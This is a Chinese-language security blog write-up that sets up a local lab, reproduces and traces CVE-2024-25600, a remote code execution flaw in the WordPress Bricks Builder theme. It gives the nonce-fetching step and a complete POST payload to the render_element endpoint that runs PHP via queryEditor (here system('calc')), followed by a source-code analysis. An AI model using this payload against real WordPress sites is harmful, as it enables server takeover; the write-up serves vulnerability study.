# 奇安信攻防社区 - 一文搭建复现并分析 CVE-2024-25600 WordPress Bricks Builder RCE 最新漏洞

# 一文搭建复现并分析 CVE-2024-25600 WordPress Bricks Builder RCE 最新漏洞

WordPres Bricks Builder 是一个 WordPress 页面构建器插件，旨在帮助用户轻松创建具有吸引力和交互性的网站页面，而无需编写代码。该插件提供了直观的拖放界面和各种预制模块，使用户可以快速构建自定义布局，添加内容和样式，以及实现所需的功能。WordPress 配置安装的 Brick Builder 主题在低于<= 1.9.6 版本中存在远程代码执行漏洞。

Bricks Builder 官方[https://bricksbuilder.io/](https://bricksbuilder.io/)

Bricks Builder 使用手册[https://academy.bricksbuilder.io/topic/getting-started/](https://academy.bricksbuilder.io/topic/getting-started/)

参考链接：

[https://bricksbuilder.io/release/bricks-1-9-6-1/](https://bricksbuilder.io/release/bricks-1-9-6-1/)

[https://www.cve.org/CVERecord?id=CVE-2024-25600](https://www.cve.org/CVERecord?id=CVE-2024-25600)

## 漏洞环境

**Windows 版：**

**搭建方法。修改根目录的配置文件 wp-config-sample.php**





**配置站点与管理员账号密码**

****

**进入后台**

****

**安装 Bricks1.9.5，并激活他**

**由于我是直接在源码里面导入了**

**所以我这边直接就是激活成功的**

****

Docker 版：

**在 kali 里面执行 docker-compose up，是直接打包好的，直接拉镜像就可以了，拉完访问 127.0.0.1 就行，映射到 80 端口了，剩下和 window 流程一样**

**服务启动后，可访问[http://your-ip:80/](http://your-ip/)将自动跳转到 wordpress 安装向导界面**

**有需要源码和打包的文件的师傅可以私信我**

## 漏洞复现

**首先，根路径查看 Bricks 返回的 nonce 值**

```php

GET /wordpress/ HTTP/1.1

Host: localhost

Accept-Encoding: gzip, deflate, br

sec-ch-ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"

sec-ch-ua-mobile: ?0

Sec-Fetch-Dest: document

Sec-Fetch-User: ?1

Accept-Language: zh-CN,zh;q=0.9

Cookie: wordpress\_test\_cookie=WP+Cookie+check

Sec-Fetch-Site: none

Upgrade-Insecure-Requests: 1

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36

Sec-Fetch-Mode: navigate

sec-ch-ua-platform: "Windows"
```

\*\*

**得到 nonce 值**

```php
{
    "debug": "",
    "locale": "zh_CN",
    "ajaxUrl": "http://localhost/wordpress/wp-admin/admin-ajax.php",
    "restApiUrl": "http://localhost/wordpress/wp-json/bricks/v1/",
    "nonce": "a980a714d9",
    "wpRestNonce": "31dc189c84",
    "postId": "0",
    "recaptchaIds": [],
    "animatedTypingInstances": [],
    "videoInstances": [],
    "splideInstances": [],
    "tocbotInstances": [],
    "swiperInstances": [],
    "queryLoopInstances": [],
    "interactions": [],
    "facebookAppId": "",
    "offsetLazyLoad": "300",
    "headerPosition": "top"
}
```

**之后发送如下请求**

```php
POST /WordPress-6.4.3/wp-json/bricks/v1/render\_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 270
Content-Type: application/json
Accept-Encoding: gzip, deflate, 

{
"postId": "1",
"nonce": " a980a714d9",
"element": {
"name": "container",
"settings": {
"hasLoop": "","query": {"useQueryEditor": "","queryEditor": "system('calc');","objectType": ""}
        }
    }
}
```

## 漏洞分析

位于\\wp-content\\themes\\bricks\\includes\\query.php 中 346 行

****

**里面的$php\_query\_raw 函数用来执行用户提交的 PHP 代码并返回结果**

**紧接着向上分析**

****

$php\_query\_raw 由 bricks\_render\_dynamic\_data( $query\_vars\['queryEditor'\], $post\_id );得到

可以追入 bricks\_render\_dynamic\_data 查看是否对数据进行了过滤处理

****

render\_content 方法

****

**然后返回 query.php 继续分析$query\_vars \['queryEditor'\]参数**

****

**在 302 行出现了$query\_vars**

**$query\_vars 由传入的形参得来**

**右键 find usages 找到调用这个方法（prepare\_query\_vars\_from\_settings）被调用的地方**

**考虑\_\_construct 方法，该方法会在实例化类时自动执行**

**在调用方法的代码行 111 行，**

****

**要想成功调用 prepare\_query\_vars\_from\_settings 方法成功需要**

1.在 element 参数下 setting 参数下的 query 参数下，要有参数 objectType

2.进入 else 语句块，$element\['id'\]为空即可（即不考虑这个参数）

3.在 element 参数下 setting 参数下的 query 参数下，设置参数 queryEditor 为我们 rce 代码

4.在 element 参数下 setting 参数下的 query 参数下，要有参数 useQueryEditor


上述的方法有点困难，那我们继续分析

在 ajax.php 中该类在 297 行，有实例化 l 类 Query


重点参数$loop\_elemet

但是在 273-289 行之间同时设置了 ajax 与 rest api 这两种请求方式，而不是 ajax 请求

element 参数下没有参数 loopElement

$loop\_elemet 将被置为 false

296 行的 if 语句也将为假，这里 new Query 是执行不了的。

所以这里还是不行

在 312 行我们可以实例化对象，不过只能对特定的类进行实例化



类似于白名单，我们对如下的类进行实例化



假如我们在参数 element 下设置了 name=container，则会实例化 Container 类



分析 element 成员是否我们可控的

在 ajax.php 中 render\_element 函数中，$element 变量是我们可控的，在 312 行代码将这个变量赋予了实例化 container 类

分析下的它的构造函数


跟入类 Container 的\_\_construct 魔术方法（在继承的父类）



分析它对传入的$element 做了什么处理。上图赋予了此类的的 element 变量

接下来就分析 container 类 render 方法的调用了



我们发现 base 类 init 方法调用了 render 方法（继承关系 container 可以调用此方法）

继续分析 render\_element 函数对 container 对象又执行了那些操作


container 对象调用了 init 方法，RCE 代码执行成功！